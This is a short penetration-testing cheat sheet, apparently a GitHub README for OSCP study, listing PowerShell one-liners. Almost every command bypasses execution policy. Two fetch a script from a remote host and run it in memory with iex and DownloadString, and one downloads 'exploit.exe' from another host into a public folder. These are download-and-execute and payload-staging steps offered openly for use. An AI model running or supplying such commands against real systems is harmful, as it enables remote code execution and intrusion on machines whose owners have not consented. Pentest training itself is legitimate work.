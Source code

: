 # Powershell-Cheatsheet
Hand list of Powershell commands frequently used during penetration tests / OSCP

## Check the Powershell Version

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "get-host"
```

## Test if you can run PowerShell Version 2

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"
```

## Execute Remote Powershell from windows command prompt

```cmd
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))" && SET "PATH=%PATH%;%ALLUSERSPROFILE%\code\"
```

## Execute Remote Powershell from Powershell prompt

```Powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))
```

## Download Remote File Using Powershell from Windows command prompt
```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```

